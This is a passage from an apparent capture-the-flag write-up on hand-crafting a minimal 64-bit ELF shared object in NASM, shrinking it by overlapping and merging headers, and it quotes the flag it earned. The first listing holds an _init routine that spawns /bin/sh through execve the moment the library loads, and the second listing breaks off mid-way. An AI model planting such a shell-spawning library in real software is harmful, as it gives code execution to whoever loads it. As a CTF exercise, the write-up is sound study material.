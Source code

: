```asm
  dq 0x200000 + filesize
  dq 0xc0
  dq 0xc0
  dq 0x8
dt_strtab:
  db "_init", 0
_init:
  xor rax,rax
  mov rdx,rax
  mov rbx,'/bin/sh'
  push rbx
  mov rdi,rsp
  push rax
  push rdi
  mov rsi,rsp
  mov al, 59
  syscall
filesize  equ  $ - $$
dynamic:
  dq 0x0c
  dq _init
  dq 0x5
  dq dt_strtab
  db 0x6
```

This file is 294 bytes, and on uploading it we get our first flag:

```
You made it to level 2: thoughtful! You have 70 bytes left to be hand-crafted. This effort is worthy of 1/2 flags. PCTF{th0ugh_wE_have_cl1mBed_far_we_MusT_St1ll_c0ntinue_oNward}
```


So we evidently needed to get it to 224 bytes to obtain our next flag. However, after overlapping a few `QWORDs` from the `dhdr` section with junk values, we were only able to get the file to 268 bytes. Then on reading more about the structure of shared object files, we found out that we could reduce the number of program headers present from 3 to 2, as there were 2 headers present with the LOAD(1) flag.

One LOAD header was for loading the `_DYNAMIC` section, while the other was for loading the code. We combined these by making it so that both of them are loaded into memory together, this was done by modifying the offsets and with a bit of trial and error. Note that a lot of the values here make little sense and are far from what they are supposed to be as defined by the ELF file format. But it works, so we don't care!

On combining these two headers, creating a couple more header overlaps, and moving the `dt_strtab` entry, we get this:

```asm
; nasm -f bin -o libcopy.so libcopy.asm
BITS 64
  org 0x0
ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  3         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _init; e_entry
  dq  lhdr - $$ ; e_phoff
  dq  0x358; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  2         ; e_phnum
  ehdrsize  equ  $ - ehdr
```